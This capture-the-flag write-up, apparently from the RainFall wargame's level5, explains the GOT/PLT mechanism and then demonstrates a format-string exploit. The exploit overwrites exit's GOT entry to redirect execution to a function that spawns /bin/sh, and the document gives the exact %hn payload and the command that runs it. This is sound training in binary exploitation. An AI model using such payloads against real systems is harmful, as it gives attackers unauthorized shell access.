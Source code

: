 # Level5
Level5 introduce GOT and PLT (Global Offset Table and Procedure Linkage Table) 

# Tools
**Cutter**: free and open source reverse-engineering software

# GOT/PLT
A little explanation around the Global Offset Table and the Procedure Linkage Table. 

When using dynamic libraries (libraries that aren't directly included in the code of the program), our computer needs to find the addresses of the different functions.

However, these addresses aren't the same all the time, they often even change at each execution.

Thus, smart programrs have invented the PLT / GOT system. Basically, it's caching for function addresses.

When a program that uses functions from a dynamic library is compiled, it doesn't know the addresses of the external functions yet.

Thus, it creates a "trampoline" function:
```x86
void exit(int status);
0x080483d0      jmp     dword [exit] ; 0x8049838
0x080483d6      push    0x28       ; '(' ; 40
0x080483db      jmp     section..plt
```
What this code do is pretty simple. Basically, it checks if the address of the function has already been retrieved, and if not, it jumps to a specific section of the code to retrieve it.
So we have two cases:
1. The program knows what's the REAL address of the function, and calls it
2. The program doesn't know yte what's the real address of the function, and retrieves it before calling it

The latter uses a very specific funciton, `ld.so`, which is the dynamic linker / loader function. What this function does is that it will retrieve the real address of the function in the dynamic library, and write it inside of a table for easier access (option 1). This table is the Global Offset Table, and the Procedure Linkage Table refers to that process of, if the address of the function isn't found, find it with the `ld.so` system.
Each "trampoline" function is also called a "PLT entry".

# Walkthrough

Upon looking at the code with dogbolt, we see two interesting functions:

```c
int o()
{
    system("/bin/sh");
    _exit(1); /* do not return */
}

void n()
{
    char v0;  // [bp-0x20c]

    fgets(&v0, 0x200, __bss_start);
    printf(&v0);
    exit(1); /* do not return */
}
```

Function `o` is definetely interesting. It's worth noting that both functons to do return anything, and will eventually call the `exit` function from `libc`. 

The `libc` is dynamically linked to the binary, and thus using techniques such as printf buffer manipulation, we can overwrite specific parts of the memory to alter Global Offset Table entries. 

Getting the address of function `o`:
```
objdump -t level5
...
080484a4 g     F .text	0000001e              o
...
```

Getting the address of the `exit` function from `libc`:
```
level5@RainFall:~$ objdump -TR level5
...
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
...
08049838 R_386_JUMP_SLOT   exit
...
```

The value stored by the GOT, value retrieved by the `ld.so` function (dynamic linker / loader).


Find the offset, with trial and error:
```
level5@RainFall:~$ ./level5 <<< $(python -c 'print "AAAA" + "%4$x"')
AAAA41414141
```
Thus, we know that the 4th element is the beginning of the buffer for `printf`.
What we want to do is to overwrite the content inside of `08049838` (exit's address) by `o`'s address, `080484a4`. 

`080484a4` is a 4-bytes value, and it's safer to write it in 2 times instead of printing the 4-bytes directly, as addresses can be misaligned, which would break our exploit.
`0x0804` = `2052`
`0x84a4` = `33956`

Again, because the system is little-endian, which means that the least significant byte of a word is stored at the smallest memory location, we to write `33956` first and then `2052`

The addresses we want to write at are: `08049838` and `0804983a`:
`"\x3a\x98\x04\x08" + "\x38\x98\x04\x08"`
We write `2052` to `0804983a` and `33956` to `08049838`, starting at argument `4` and writing on only 2-bytes at a time `hn`:
`"\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%(2052 - 8)d" + "%4\$hn" + "%(33956 - 2052)d" + "%5\$hn"`
Giving payload:
`"\x3a\x98\x04\x08\x38\x98\x04\x08%2044d%4$hn%31904d%5$hn"`

Execute the attack:
```bash
python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044d%4$hn%31904d%5$hn"' > attack.txt; cat attack.txt - | ./level5
```

# Resources
